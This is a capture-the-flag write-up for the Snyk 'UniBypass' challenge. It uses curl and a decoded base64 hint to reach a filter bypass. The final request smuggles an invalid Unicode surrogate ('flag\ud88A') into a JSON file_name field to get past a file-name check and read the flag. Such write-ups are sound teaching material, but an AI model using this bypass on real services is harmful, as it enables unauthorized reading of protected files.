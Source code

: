 # UniBypass

If you wanna be my parser, you gotta get with my friend.

## Objective

Just from the title, we can assume, that there is a possible form to fill and bypass.
The languages are python and JavaScript, so I could assume that there will be an interesting script embedded, possibly, into the HTML.


## Resources

***Link***: https://ctf-101.snyk.io/challenges#UniBypass

***Server***: http://35.211.91.235:8000


## Solution

We can retrieve the HTML page with the curl command as follows below:

```
$curl -X GET 35.211.91.235:8000 >> HelloHax0R.html                      
```
***Results***

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3394  100  3394    0     0  13872      0 --:--:-- --:--:-- --:--:-- 13909


If we take a look into the file, we can find two interesting hints.
The first is about the Javascript code that handles the form text to fill.

This script indicates us, that there is a logic regarding the  fetching of the file.


```
<script>
        window.onload = function(){
            document.querySelector('#submit').addEventListener('click', submit);
        }

        async function submit(){
            const file_name = document.querySelector('#file_name').value;
            const response = await fetch('/', {
                method:'POST',
                headers:{
                    'content-type':'application/json'
                },
                body: JSON.stringify({file_name})
            })
            const responseData = await response.json();
            alert(responseData.response);
        }
    </script>

```

In this possible solution, I will go through curl command and not the form text.
This is the command that I will use to exploit the form, changing only the value of *file_name*.


```
$curl -X POST 35.211.91.235:8000/ -H "Content-Type: application/json" -d '{"file_name":"flag"}' 

```

***Response***

{"response":"computer says no"}  or {"response":"it's not that simple"}                                                                                                      
Therefore, let's go for the second hint, a base64 encoded, commented string on the bottom of the page.


```
<!--T25jZSBJIHdhcyBwYXJzaW5nLXllYXJzLW9sZCBteSBtb21teSB0b2xkIG1lCm1ha2Ugc3VyZSB5b3Ugd29yayB3LyBweXRob24gb3IgeW91J2xsIGdldCBsb25lbHkK-->
</body>
</html>

```
If we decode the string with the command base64 showed below:


```
echo "T25jZSBJIHdhcyBwYXJzaW5nLXllYXJzLW9sZCBteSBtb21teSB0b2xkIG1lCm1ha2Ugc3VyZSB5b3Ugd29yayB3LyBweXRob24gb3IgeW91J2xsIGdldCBsb25lbHkK" >> suspiciosString 


base64 -d suspiciosString


```
***Results***

Once I was parsing-years-old my mommy told me
make sure you work w/ python or you'll get lonely

*From this phrase, let's pick up some keywords for reasearch*

A good reasearch could be *parsing w/ unicode bypass*

After a deep browse I found a good article, which describes some invalid character to use https://charbase.com/d86e-unicode-invalid-character.

I tried different values and I assume that the form could be exploited with "flag/ud88*", below an example:

```
curl -X POST "http://35.211.91.235:8000/" -H "Content-Type: application/json" -d '{ "file_name" : "flag\ud88A"}'
```
***Results***

{"response":"SNYK{FLAG}"}






